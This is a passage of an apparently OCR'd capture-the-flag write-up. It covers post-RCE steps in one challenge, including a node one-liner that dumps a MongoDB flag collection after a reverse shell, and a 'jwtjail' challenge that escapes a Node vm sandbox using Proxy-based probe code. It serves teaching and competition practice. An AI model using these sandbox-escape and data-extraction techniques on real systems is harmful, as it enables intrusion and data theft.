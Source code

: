 ```
WORKDIR /app
COPY package.json ./
COPY static ./static
RUN npm i
COPY app.js .

RUN useradd -ms /bin/bash user
USER user

CMD ["/bin/sh", "-c", "while true; do node app.js; done"]
```

So there is no permission to directly overwrite the files under /app/. The only places where the user has permission to write are /home/user/ (thanks to `useradd -m` :create the user's home directory if it does not exist) and /tmp. Only then can there be a guess that writing files under $HOME will be loaded.

After RCE rebounds the shell, connect to mongodb to read the flag according to the clues in the dockerfile:

```
node -e '(async _ =>{const { MongoClient } = require("mongodb"); const client = new MongoClient("mongodb://mongodb:27017/"); q = await client.db("secret").collection("flag").find().toArray(); console.log(q);})()'
```


### jwtjail:

Analyze the source code, which uses the `vm` module to execute user-controlled JavaScript code, but disables code generation.

Since the context of `vm` is set to `Object.create(null)`, the prototype chain of `this` cannot be used to obtain the v8 context as an Object outside of vm.

First notice the `verify` function of the `jsonwebtoken` module, its second parameter can be a `function` type, and several objects will be passed in when calling. But this call mode must be asynchronous call and cannot be used.

Since the attack must obtain an object whose v8 context is outside the vm, consider returning to `Proxy`. Construct the universal agent as follows:

```javascript
(() => {
  const c = (name, tar = {}) => new Proxy(
    tar,
    {
      apply: (...args) => {
        console.log(args)
      },
      get: (...args) => {
        console.log(args)
        if(args[1] === Symbol.toPrimitive) {
          return c(name + '.' + String(args[1]), () => {
            throw new Error()
          });
        }
        return c(name + '.' + String(args[1]));
      }
    }
  );
  return c('a', {});
})()
```
